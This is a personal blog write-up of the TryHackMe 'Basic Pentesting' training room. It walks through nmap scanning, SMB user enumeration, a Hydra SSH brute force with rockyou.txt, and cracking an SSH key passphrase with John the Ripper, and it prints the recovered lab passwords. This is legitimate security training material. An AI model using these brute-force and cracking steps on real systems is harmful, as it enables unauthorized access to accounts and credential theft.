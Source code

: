 ```yaml
---
title: "How to Warm Up my HACKING skills with TryHackMe"
date: "2020-04-23"
author: Jorge
categories:
- hack 
tags:
- hack
toc: true
summary: |
  TryHackMe is an online platform for learning and teaching cyber security.
  It is based on completing rooms and upskill in security, all from your browser.
  This is my writeup for the Basic pentesting room.
---
```



I have the feeling that the core of the last few articles is related to **_pentesting_** and **_hacking_**. But after discussing about integration patterns, coding and best practices all day long in my job I fond myself enjoying the hacking challenges in my spare time.

TryHackMe is an online platform for learning and teaching cyber security. It is based on completing rooms and upskill in security, all from your browser.

This article is a **Writeups** for the  [_Basic Pentesting_ room](https://tryhackme.com/room/basicpentestingjt).

<img src="/img/2020/03/image.png">

## Find the services exposed by the machine

```bash
$ nmap -sC -sV <IP>
```

```bash
# Nmap 7.80 scan initiated Sun Mar 22 11:26:39 2020 as: nmap -sC -sV -oN output/nmap 10.10.38.196
Nmap scan report for 10.10.38.196
Host is up (0.077s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h19m59s, deviation: 2h18m34s, median: -1s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2020-03-22T06:26:54-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-03-22T10:26:54
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Mar 22 11:26:58 2020 -- 1 IP address (1 host up) scanned in 19.80 seconds
```

We  have 3 Open PORTS:

* 22 (SSH)
* 139 and 445 (smbd)

If we open this IP in the browser we see a server sunning.

<img src="/img/2020/03/image-6.png">

<img src="/img/2020/03/image-2.png">

## The web server

> What is the name of the hidden directory on the web server(enter name without /)?

```html
<!-- Check our dev note section if you need to know what to worck on. -->
```

We could use [gobuster](https://github.com/OJ/gobuster) to search for directories with brute-force but since we have a hint here let's try it first... ok `/dev` isn't the directory we are looking for but we see an apache server running. Maybe `/development` is the right endpoint... Yes, we nailed it.

<img src="/img/2020/03/image-5.png">

<img src="/img/2020/03/image-7.png">

<img src="/img/2020/03/image-8.png">

## The username

> User brute-forcing to find the username & password

We have smbd open, that can give us a lot of information. We can use Enum4linux for that. Since I don't have the tool installed on my machine and handling all the dependencies may be a nightmare let's use docker.

```bash
$ docker run --rm -it enum4linux -a <IP>
```

2 users pop up, **jan** a.k.a. J and **kay** a.k.a. K.

## The password

> What service do you use to access the server(answer in abbreviation in all caps)

Seen the input field we can assume the password is pretty simple, a brute force approach should unlock it.

We have the information about the open ports thanks the nmap tool. SSH is a great candidate with a tool called **_[Hydra](https://tools.kali.org/password-attacks/hydra)_**. A common password dictionary is needed tho and we are going to use [rockyou.txt](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt)

Rockyou.txt contains 14,341,564 unique passwords, used in 32,603,388 accounts.

Kali Linux provides this dictionary file as part of its standard installation.

```bash
$ hydra -l jan -P rockyou.txt ssh:<ip>

login: jan   password: armando
```

> Enumerate the machine to find any vectors for privilege escalation

> **What is the name of the other user you found(all lower case)?**
> We already have this information from point 5.

## If you have found another user
> what can you do with this information?
> What is the final password you obtain?

Awesome, now we can login with SSH as `jan` . Listing the file in jan directory doesn’t give us any answer to escalating the privilege. Still, remember we have the user kay? Let’s find it out.

We found the `id_rsa` and `id_rsa.pub` and a strange file `pass.back`, unfortunately when we try to ssh using the key file we see the key requires a passphrase.

```bash
$ ssh -i id_rsa kay@<IP>

Enter passphrase for key 'id_rsa':
```

But luckily we can cat out this file and crack the key with [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper/blob/bleeding-jumbo/run/ssh2john.py)

```bash
$ ssh2john.py output/kay/id_rsa > id_rsa.txt

$ docker run -it --rm -v $(pwd)/id_rsa.txt:/opt/id_rsa.txt -v $(pwd)/dic/rockyou.txt:/opt/rockyou.txt obscuritylabs/johntheripper /opt/id_rsa.txt --wordlist=/opt/rockyou.txt
...
beeswax   (output/kay/id_rsa)
```

Now we can login as kay with the public key and cat the strange file we saw under the home directory for this user.

```bash
$ ssh -i id_rsa kay@<IP>

$ cat pass.back

heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

